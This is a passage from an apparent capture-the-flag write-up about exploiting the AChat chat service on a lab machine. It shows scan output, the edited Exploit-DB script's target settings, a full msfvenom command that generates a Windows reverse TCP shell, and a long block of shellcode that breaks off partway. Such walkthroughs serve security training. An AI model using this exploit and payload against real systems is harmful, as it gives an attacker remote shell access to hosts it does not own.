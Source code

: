 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds
[root:~/Desktop/chatterbox]#</pre>
Webserver on 9255 port lets check it out. I'll not waste your time but I couldn't find any pages even after a dirsearch.

I googled AChat looking for a vulnerability and found this https://www.exploit-db.com/exploits/36025/

I modified the script to point to the server
<pre># Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)</pre>
and modified the payload to run a reverse_tcp
<pre>msfvenom -a x86 -platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.234 LPORT=12343 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python</pre>
This gave me the following code which i pasted in to the python script
<pre>buf = "" 
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41" 
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x79\x6c\x4b\x38\x61\x72"
buf += "\x6d\x30\x59\x70\x59\x70\x71\x50\x55\x39\x69\x55\x4e"
buf += "\x51\x35\x70\x42\x44\x34\x4b\x42\x30\x30\x30\x54\x4b"
buf += "\x61\x42\x6c\x4c\x52\x6b\x50\x52\x7a\x74\x54\x4b\x44"
buf += "\x32\x6e\x48\x4c\x4f\x34\x77\x30\x4a\x4d\x56\x6d\x61"
buf += "\x59\x6f\x44\x6c\x6f\x4c\x4f\x71\x71\x6c\x79\x72\x4e"
buf += "\x4c\x6b\x70\x65\x71\x78\x4f\x6c\x4d\x39\x71\x46\x67"
buf += "\x7a\x42\x4a\x52\x61\x42\x4f\x67\x42\x6b\x52\x32\x4a"
buf += "\x70\x54\x4b\x30\x4a\x6f\x4c\x52\x6b\x50\x4c\x6a\x71"
buf += "\x44\x38\x7a\x43\x51\x38\x4d\x31\x67\x61\x6f\x61\x32"
buf += "\x6b\x32\x39\x4f\x30\x59\x71\x68\x53\x74\x4b\x6f\x59"
buf += "\x6e\x38\x37\x73\x6e\x5a\x4e\x69\x44\x4b\x4c\x74\x74"
buf += "\x4b\x4b\x51\x69\x46\x30\x31\x4b\x4f\x74\x6c\x56\x61"
buf += "\x48\x4f\x5a\x6d\x49\x71\x75\x77\x6c\x78\x49\x50\x74"
buf += "\x35\x6b\x46\x39\x73\x53\x4d\x78\x78\x6f\x4b\x43\x4d"
buf += "\x6e\x44\x64\x35\x6b\x34\x42\x38\x54\x4b\x42\x38\x4f"
buf += "\x34\x7a\x61\x37\x63\x33\x36\x62\x6b\x4c\x4c\x4e\x6b"
buf += "\x74\x4b\x51\x48\x4d\x4c\x49\x71\x59\x43\x64\x4b\x6c"
buf += "\x44\x74\x4b\x4b\x51\x68\x50\x73\x59\x4e\x64\x4c\x64"
buf += "\x6e\x44\x51\x4b\x51\x4b\x43\x31\x71\x49\x4e\x7a\x4f"
buf += "\x61\x49\x6f\x77\x70\x61\x4f\x71\x4f\x4f\x6a\x44\x4b"
buf += "\x4c\x52\x5a\x4b\x74\x4d\x71\x4d\x52\x48\x6f\x43\x30"
buf += "\x32\x79\x70\x4d\x30\x52\x48\x61\x67\x32\x53\x6f\x42"
buf += "\x71\x4f\x31\x44\x73\x38\x4e\x6c\x44\x37\x4e\x46\x4d"
buf += "\x37\x6b\x4f\x79\x45\x34\x78\x56\x30\x6d\x31\x59\x70"
buf += "\x79\x70\x6b\x79\x76\x64\x30\x54\x72\x30\x4f\x78\x6c"
buf += "\x69\x63\x50\x52\x4b\x49\x70\x59\x6f\x5a\x35\x30\x50"
buf += "\x6e\x70\x52\x30\x4e\x70\x6d\x70\x4e\x70\x71\x30\x50"
buf += "\x50\x71\x58\x68\x6a\x7a\x6f\x69\x4f\x37\x70\x4b\x4f"
buf += "\x56\x75\x32\x77\x42\x4a\x4a\x65\x50\x68\x5a\x6a\x69"
buf += "\x7a\x6a\x6e\x5a\x4a\x71\x58\x49\x72\x69\x70\x6e\x50"
buf += "\x4c\x77\x43\x59\x38\x66\x30\x6a\x4a\x70\x70\x56\x62"